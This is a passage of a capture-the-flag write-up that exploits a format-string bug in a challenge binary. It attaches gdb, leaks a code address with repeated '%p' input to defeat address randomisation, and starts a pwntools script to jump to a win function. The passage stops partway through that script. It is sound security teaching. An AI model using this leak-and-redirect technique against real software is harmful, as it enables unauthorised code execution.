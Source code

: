 copy the PID (here it is 4053)

and run `gdb` to diassemble main function

```bash
$ gdb -p 4053 
....
....
....
(gdb) disas main
Dump of assembler code for function main:
   0x0000558dff422400 <+0>:     endbr64
   0x0000558dff422404 <+4>:     push   %rbp
   0x0000558dff422405 <+5>:     mov    %rsp,%rbp
   0x0000558dff422408 <+8>:     lea    -0x166(%rip),%rsi        # 0x558dff4222a9 <segfault_handler>
   0x0000558dff42240f <+15>:    mov    $0xb,%edi
   0x0000558dff422414 <+20>:    call   0x558dff422170 <signal@plt> 
   0x0000558dff422419 <+25>:    mov    0x2bf0(%rip),%rax        # 0x558dff425010 <stdout@@GLIBC_2.2.5>
   0x0000558dff422420 <+32>:    mov    $0x0,%ecx
   0x0000558dff422425 <+37>:    mov    $0x2,%edx
   0x0000558dff42242a <+42>:    mov    $0x0,%esi
   0x0000558dff42242f <+47>:    mov    %rax,%rdi
```

This will leak the address of main `0x558dff422400`

Now let's input approx 20 `%p` as name input (random value) also enter `c` in gdb to continue the running process

```bash
$ ./vuln
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x558e0c8f22a1 0xfbad2288 0xf370dd5f 0x558e0c8f22dd 0x4 0x7f13cba5eff0 (nil) 0x252070252070252e 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa70252070 0x7fff5a77e8a0 0x5e3b980a6f49e900 0x7fff5a77e8a0 0x558dff422441 0x1
```

At postion of 19th %p we get `0x558dff422441` which is only at a gap of hex 0x41 from the address of main function `0x558dff422400`

This value can be used to reterive address of win function.

What to do ?
 
- calculate win offeset
- use actual address of main and offset to get actuall memory address of win
- pass address of win in 2nd input to run win function and hence get the flag

We'll do so by the following python script.

```python
from pwn import *


binary = ELF("./vuln")
# print(binary.symbols)
win_offset = binary.symbols["main"] - binary.symbols["win"]
print("Win offset: ", hex(win_offset))


## remote process
HOST = "..."
PORT = "..."
# p = remote(HOST, PORT)

p = process("./vuln")
p.recvuntil(b"name:")

```